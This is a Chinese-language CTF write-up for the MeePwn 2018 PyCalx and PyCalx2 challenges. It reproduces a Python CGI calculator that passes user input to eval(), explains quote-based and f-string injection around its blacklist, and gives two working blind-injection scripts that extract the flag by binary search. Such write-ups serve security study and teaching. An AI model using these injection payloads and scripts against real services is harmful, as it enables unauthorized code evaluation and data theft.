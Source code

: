 ```yaml
---
comment: true
toc: true
mathjax: true
title: Meepwn2018：PyCalx&PyCalx2——Py3的f-string与eval注入
tags: [f-string]
date: 2018-07-19 09:10:50
categories: writeup
---
```


**本文首发 [先知社区](https://xz.aliyun.com/t/2446) ，转载请注明链接。** 

# PyCalx

> This code is supposed to be unexploitable :/ another pyjail?
> [[Source\]](http://178.128.96.203/cgi-bin/server.py?source=1) 
> [Try this ](http://178.128.96.203/cgi-bin/server.py?value1=123&op=%3D%3D&value2=123)or [this](http://178.128.96.203/cgi-bin/server.py?value1=abc&op=%3D%3D&value2=abc) 
> Notice: The flag may contain non alphabetic characters (but still printable)

本题由Python的 `eval()` 函数参数可控且直接拼接引发的注入，采用二分法盲注。

server.py源码如下：

```python
#!/usr/bin/env python
import cgi
import sys
from html import escape

FLAG = open('/var/www/flag', 'r').read()
OK_200 = "some HTML code"
print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>' + escape(str(open(__file__, 'r').read())) + '</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(', ')', '[', ']', '\'',
                     '"']  # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+', '-', '/', '*', '=', '!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)
    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)
    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
    print(
        '<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>'
    )
    print('>>>> print(' + escape(calc_eval) + ')')
    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print(
                "Invalid"
            )  # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")
    print('>>> </pre></div></div></div>')
```

大意如下：

- cgi会处理source，value1，value2，op四个参数。
- 如果source=1则打印源代码。
- value1，value2，op三个参数都有值时进一步处理。
  - value1，value2至少1个字符，至多64个，且不包含黑名单`()[]'"` 里的字符。
  - op至少1个字符，至多2个，且首字符必须在白名单`+-*/=!` 里。
  - value1,value2要么都是只包含`[0-9]`，要么都包含其他字符。
  - 执行`str(eval(str(repr(value1)) + str(op) + str(repr(value2))))` ，且只有结果是bool值或只包含`[0-9]` 时才会输出。
    - 注：repr返回对象的可打印形式，和反引号包裹效果一致，对大多数类型，他会返有一个字符串，使其可以作为代码直接传入eval执行。

解题思路：`op` 允许两个字符，且第二个字符是任意的，那么如果是一个单引号，就能混淆代码和数据，起到类似SQL注入的效果。

```python
>>> print(str(repr("a"))+str("+")+str(repr("b")))
'a'+'b'
>>> print(str(repr("a"))+str("+'")+str(repr("< b#")))
'a'+''< b#'
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://178.128.96.203/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    # print payload
    r = requests.get(u, params=payload)
    # print r.url
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    assert (res != 'Invalid')
    return res == 'True'
    # print r.content


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        # print lo, mid, hi, "\t",
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, v2, op, s = 'x', "+FLAG<value1+source#", "+'", ''

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}
```

![1531905259492](1531905259492.png)



# PyCalx2 

> You should solve `PyCalx` first. 
>
> http://206.189.223.3/cgi-bin/server.py?source=1  

`server.py` 只改动了一行代码，将`    op = get_op(arguments['op'].value)` 变成了 `op = get_op(get_value(arguments['op'].value))`  ，也就是说将`op` 参数也进行了黑名单过滤，于是 `op` 的第二个字符就不能是单引号，第一题的方法也就失效了。

结合题目提示和第一题的flag去寻找Python3.6的新特性，用到了这个 ` f-string  ` ，详见[PEP 498 -- Literal String Interpolation](https://www.python.org/dev/peps/pep-0498/) 。简言之就是可以在字符串中方便地直接插入表达式，以`f` 开头，表达式插在大括号`{}` 里，在运行时表达式会被计算并替换成对应的值。

本题主要是利用这个特性在字符串里插入比较的表达式，剩下的就和上题一样了。插法不尽相同，CTF Time上的WP里有这么两种，相信还可以有其他的方法：

```python
>>> str(repr('T'))+str('+f')+str(repr('ru{FLAG<source or 14:x}')) # 14的十六进制表示时'e'
"'T'+f'ru{FLAG<source or 14:x}'"
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{1 or 14:x}')))
'Tru1' # 返回Invalid
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{0 or 14:x}')))
'True'
```

```python
>>> str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{FLAG<source:1}.1}'))
"'Tru'+f'{sys.exit.__name__:{FLAG<source:1}.1}'"
# {FLAG<source:1}的值相当于printf("%1f",FLAG<source)的结果，有0和1两种可能。
#这边sys.exit.__name__等价于字符串'exit'，考虑到已经import escape，直接用escape.__name__也可。
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{1:1}.1}')))
'True'
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{0:1}.1}')))
#报错，返回Invalid
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
ValueError: '=' alignment not allowed in string format specifier
>>>
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://206.189.223.3/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    r = requests.get(u, params=payload)
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    return res == 'Invalid'


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, op, v2, s = 'T', "+f", "ru{FLAG<source or 14:x}", 'a'

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}
```



![1531905207979](1531905207979.png)